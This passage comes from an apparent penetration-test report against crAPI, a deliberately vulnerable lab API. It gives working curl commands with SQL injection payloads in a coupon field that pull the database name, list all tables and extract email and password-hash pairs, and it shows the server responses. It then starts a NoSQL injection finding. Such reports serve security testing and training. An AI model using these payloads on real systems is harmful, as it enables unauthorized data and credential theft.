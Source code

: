 5. **Extract database name:**
```bash
curl -k -X POST https://crapi.sandbox.local:8888/workshop/api/shop/apply_coupon \
  -H "Authorization: Bearer [JWT_TOKEN]" \
  -H "Content-Type: application/json" \
  -d '{"coupon_code": "'\'' AND 1=2 UNION SELECT current_database()--", "amount": 100}'
```
Response: `{"message":"crapi Coupon code is already claimed by you!! Please try with another coupon code"}`

6. **Enumerate all table names:**
```bash
curl -k -X POST https://crapi.sandbox.local:8888/workshop/api/shop/apply_coupon \
  -H "Authorization: Bearer [JWT_TOKEN]" \
  -H "Content-Type: application/json" \
  -d '{"coupon_code": "'\'' AND 1=2 UNION SELECT string_agg(table_name, '\'','\'') FROM information_schema.tables WHERE table_schema='\''public'\''--", "amount": 100}'
```
Response: `{"message":"otp_token,profile_video,user_details,vehicle_model,vehicle_details,vehicle_location,vehicle_company,user_login,otp,mechanic,django_migrations,django_content_type,auth_permission,auth_group,auth_group_permissions,auth_user_groups,auth_user_user_permissions,auth_user,django_admin_log,service_request,product,applied_coupon,order,health_check_db_testmodel,django_session Coupon code is already claimed by you!! Please try with another coupon code"}`

7. **Extract sensitive user credentials:**
```bash
curl -k -X POST https://crapi.sandbox.local:8888/workshop/api/shop/apply_coupon \
  -H "Authorization: Bearer [JWT_TOKEN]" \
  -H "Content-Type: application/json" \
  -d '{"coupon_code": "'\'' AND 1=2 UNION SELECT email||'\'':'\''||password FROM user_login LIMIT 5--", "amount": 100}'
```
Response: `{"message":"test6@test.com:$2a$10$TwbchLEy4653ENobgxRKjemiHlnQE98CPncJYVhFeIfCLeicefAPG Coupon code is already claimed by you!! Please try with another coupon code"}`

**Proof of Impact:**
- **Database Version Extracted:** PostgreSQL 14.19 (Debian 14.19-1.pgdg13+1)
- **Database User:** admin (high privileges)
- **Database Name:** crapi
- **Complete Table Enumeration:** 25 tables including sensitive user data
- **Password Hash Extracted:** test6@test.com:$2a$10$TwbchLEy4653ENobgxRKjemiHlnQE98CPncJYVhFeIfCLeicefAPG (BCrypt hash)

### INJ-VULN-04: MongoDB NoSQL Injection via Community Coupon Validation

**Summary:**
- **Vulnerable location:** `/community/api/v2/coupon/validate-coupon` endpoint
- **Overview:** MongoDB operator injection allowing complete query manipulation and data extraction from NoSQL database
- **Impact:** Unauthorized access to MongoDB coupon collection with ability to extract arbitrary documents
- **Severity:** High
